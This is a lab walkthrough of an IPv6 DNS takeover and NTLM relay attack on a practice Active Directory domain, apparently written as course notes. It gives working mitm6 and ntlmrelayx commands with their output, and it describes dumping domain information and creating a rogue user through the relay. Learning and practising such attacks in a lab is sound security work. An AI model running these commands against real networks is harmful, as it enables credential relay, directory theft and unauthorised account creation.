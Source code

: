 
First of all install [pimpmykali](https://github.com/Dewalt-arch/pimpmykali) cos' the tool `mitm6` doesn't come pre-installed with kali linux

![](https://i.imgur.com/SyvCBNl.png)

Change directory to `/opt/mitm6` and install the necessary requirements

```shell
sec-fortress@Pwn-F0rk-3X3C:/opt/mitm6$ cd /opt/mitm6      

sec-fortress@Pwn-F0rk-3X3C:/opt/mitm6$ sudo pip2 install .

sec-fortress@Pwn-F0rk-3X3C:/opt/mitm6$ cd ~         

sec-fortress@Pwn-F0rk-3X3C:~$ 
```

![](https://i.imgur.com/jIbtM8b.jpg)

### Setting up ntlmrelayx and mitm6

On your terminal do :

```shell
sec-fortress@Pwn-F0rk-3X3C:~/PEH/AD$ ntlmrelayx.py -6 -t ldaps://192.168.0.110 -wh fakewpad.marvel.local -l bankai

Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
[*] Protocol Client MSSQL loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server

[*] Servers started, waiting for connections
```

Note that `-6` represents IPv6 `-t` for targets `-wh` for fake web proxy auto-discovery `-l` will create a folder named **bankai**

Then start up the `mitm6` server with the following command :

```shell
sec-fortress@Pwn-F0rk-3X3C:~$ sudo mitm6 -d marvel.local
```

![](https://i.imgur.com/S8Go70A.png)

Now we can go ahead and re-boot our `THE-PUNISHER` machine and focus on our terminal

![](https://i.imgur.com/3DID7Ig.png)

Checking your present folder, `~/PEH/AD` , you should have a folder with the folder name when you specified the `-l` option, this folder contains sensitive files in **html, grep and json** format (HTML formats are the best)

The highlighted ones as shown below are very important :

![](https://i.imgur.com/yysEMrW.png)

We can also do other stuff like creating another user, first of all we can login as the local admin

![](https://i.imgur.com/0VwsLjf.jpg)

Then since this is recorded as an event, we can go back to our `ntlmrelayx.py` tool page on your terminal, checking the output you should see a new user created

![](https://i.imgur.com/FcNSdmh.png)

PS: If you can't find one just restart your `mitm6` tool and `ntlmrelayx`

